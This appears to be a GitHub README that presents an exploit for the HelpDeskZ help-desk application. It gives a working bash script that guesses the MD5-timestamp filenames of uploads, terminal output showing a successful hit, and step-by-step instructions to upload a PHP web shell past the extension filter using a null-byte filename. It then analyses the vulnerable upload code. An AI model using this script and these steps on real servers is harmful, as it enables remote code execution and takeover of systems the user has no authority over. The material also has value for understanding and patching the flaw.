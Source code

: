 # HelpDeskZ
There are vulnerabilties in the [HelpDeskZ application](https://github.com/evolutionscript/HelpDeskZ-1.0/) in which allow an attacker to bypass PHP upload, file extension, restrictions and obtain the world-readable web directory for uploads and hit the uploaded PHP shell, I highly recommend my own [WPES.PHP](https://github.com/weaknetlabs/wpes), for RCE. The code shown below is new and was written after analyzing the HelpDeskZ code for a penetratyion test exercise.
## The Uploads File Enumeration Script
This script will help us find the files aftyer we upload them.
```
#!/bin/bash
# 2019 Douglas Berdeaux - WeakNet Labs, DEMON LINUX
# GNU (C)
# Enumertaion Script - To search for uploaded files to HelpDeskZ
#
URI=""
FILENAME=$1
BASEURL=$2
OFFSET=$3
EXT=$(echo $1|sed -re 's/[^.]+//')
TIME=$(date +%s) # get current time
OFFTIME=$(($TIME + $OFFSET)) # add OFFSET
printf "[*] BaseURL: $BASEURL\n"
printf "[*] Got file: $FILENAME\n"
printf "[*] Got offset of $OFFSET\n"
printf "[*] Using extension: $EXT\n"
printf "[*] Current Epoch Seconds Time (UTC) is $TIME\n"
printf "[*] Adding offset of $OFFSET to $TIME = $OFFTIME\n"
printf "[*] Starting scan, CTRL+C to quit ... \n"
while [ 1 ]; do # just loop through minus 1 for every request until we find it.
 SUM="$FILENAME$OFFTIME"
 MD5=$(echo -n $SUM|md5sum|awk '{print $1}')
 URI="${BASEURL}${MD5}${EXT}"
 printf "[*] Trying: $OFFTIME : $URI"
 RESP=$(curl -s -I $URI|head -n 1| awk '{print $2}')
 if [[ "$RESP" != "404" ]]; then
  printf "\n[!] Possible file name found!\n[!] $URI\n[!] Offset Timestamp: $OFFTIME\n[!] HTTP code: $RESP\n\n";
  exit;
 else
  printf "\r                                                                   \r"
 fi
 OFFTIME=$(($OFFTIME-1)) # try again but subtract 1 from the timestamp.
done;
# no file found :(
printf "[!] Could not determine the file name during the scan.\n"
```
Below is code output from the terminal,
```
root@demon:~/# ./hdz-uploads.sh 'wpes.php' http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/ 0
[*] BaseURL: http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/
[*] Got file: wpes.php
[*] Got offset of 0
[*] Using extension: .php
[*] Current Epoch Seconds Time (UTC) is 1548108731
[*] Adding offset of 0 to 1548108731 = 1548108731
[*] Starting scan, CTRL+C to quit ... 
[*] Trying: 1548108402 : http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/0ae5799a884147422761be35a07e4458.php
[!] Possible file name found!
[!] http://(TARGET IP ADDRESS)/helpdeskz/uploads/tickets/0ae5799a884147422761be35a07e4458.php
[!] Offset Timestamp: 1548108402
[!] HTTP code: 200

```
## Exploitation
The steps to exploitation are as follows,
1. Get the remote server's timestamp. You can use Burp or "Inspect element->Network" and view headers of thr server response in your browser after hitting index.php
2. Find the time difference from your system's clock to the server's date using subtraction
3. create a PHP shell and store it on your FS
4. Get the path to the uploaded files on the target server. This will be ./path/to/helpdeskz/ + /uploads/tickets/ according to the GitHUB repository of HelpDeskZ
5. Hit the "Submit a Ticket" in the target web service's interface and submit a ticket and use BurpSuite to capture the request.
6. Change the file name to "wpes.php%00.jpeg" - this NULL byte is what I used to bypass the PHP file extension filter.
7. Hit "Forward" in BurpSuite until you are taken back to the main page.
8. Run my script - pass the following arguments (as shown in the terminal listing above),
 * The PHP shell file name: wpes.php
 * The URL to the target: http://(TARGET IP ADDRESS)/path/to/helpdeskz/uploads/tickets/ 
 * The time difference between you and the target server: in seconds.
## How this works
First, let's look at the `verifyAttachments()` function in HelpDeskZ. This code comes directly from the author's GitHUB page for HelpDeskZ.
```
function verifyAttachment($filename){
        global $db;
        $namepart = explode('.', $filename['name']);
        $totalparts = count($namepart)-1;
        $file_extension = $namepart[$totalparts];
        if(!ctype_alnum($file_extension)){
                $msg_code = 1;
        }else{
... (SNIPPED) ...
}
```
The above code shows tha the extention itself is used to verify the file type. 

Next, let's look at the upload location. This is the combination of a few files. In `index.php` we have an include of `includes/bootstrap.php`. This PHP code sets up the controllers for the requests. Upon a file attachment submission and the code analyzing the file extension, as we saw above, the following code creates the file on the file system, found in `submit_ticket_controller.php`
```
$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
						$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
						$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
						$uploadedfile = $uploaddir.$filename;
```
This code does the follwoing operations and is what I used to build my script above,

1. Takes the file name, wpes.php, 
2. appends the current timestamp, using PHP's `time()` function
3. creates an MD5 of the enstire string
4. appends the original extension, of `wpes.php` would be '.php'
5. then stores it in `./uploads/tickets/`

This is why the timestamp offset is important. You could technically set it to far in the future and loop through, but this avoids unnecessary excessive HTTP requests during the penetration test.
